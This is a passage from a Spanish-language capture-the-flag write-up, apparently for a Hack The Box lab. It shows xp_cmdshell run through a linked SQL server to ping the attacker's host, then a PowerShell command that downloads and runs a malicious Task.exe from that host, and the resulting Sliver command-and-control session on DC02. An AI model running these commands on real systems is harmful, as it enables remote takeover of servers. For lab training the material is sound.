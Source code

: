 Ahora, sólo haría falta comprobar si es que tenemos contacto con este `DC02` remoto, lo que podemos probar con `ping`:

```js
// Del Lado de la sesión remota
SQL (darkzero\john.w  guest@master)> EXECUTE('xp_cmdshell ''powershell -c ping 10.10.16.77'' ') AT [DC02.darkzero.ext]
// Del lado de nuestra máquina local
❯ sudo tcpdump -i tun0 icmp
```

Y al ejecutarlo, notaremos la respuesta:

```h
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:36:28.605337 IP dc01.darkzero.htb > 10.10.16.77: ICMP echo request, id 1000, seq 169, length 40
06:36:28.605387 IP 10.10.16.77 > dc01.darkzero.htb: ICMP echo reply, id 1000, seq 169, length 40
```

#### Descarga y Ejecución Sliver

Una vez confirmada la conexión tiramos de wget y descargamos el archivo malicioso:

```js
SQL (darkzero\john.w  guest@master)> EXECUTE('xp_cmdshell ''powershell -c wget http://10.10.16.77:11601/Task.exe -Outfile C:/Windows/Tasks/Task.exe'' ') AT [DC02.darkzero.ext]
output   
------   
NULL  
SQL (darkzero\john.w  guest@master)> EXECUTE('xp_cmdshell ''powershell -c C:/Windows/Tasks/Task.exe'' ') AT [DC02.darkzero.ext]
```

Y pronto recibiremos la conexión en `Sliver`:

```js
[*] Session 5c0c6753 MUDDY_CLAVICLE - 10.10.11.89:56902 (DC02) - windows/amd64 - Mon, 13 Oct 2025 06:43:30 CST

sliver > sessions 

 ID         Name             Transport   Remote Address      Hostname   Username               Operating System   Locale   Last Message                            Health  
========== ================ =========== =================== ========== ====================== ================== ======== ======================================= =========
 5c0c6753   MUDDY_CLAVICLE   http(s)     10.10.11.89:56902   DC02       darkzero-ext\svc_sql   windows/amd64      en-US    Mon Oct 13 06:44:44 CST 2025 (3s ago)   [ALIVE] 

sliver > use 5c0c6753-5e45-4296-86ba-bdae827b0d69

[*] Active session MUDDY_CLAVICLE (5c0c6753-5e45-4296-86ba-bdae827b0d69)

sliver (MUDDY_CLAVICLE) > 
```
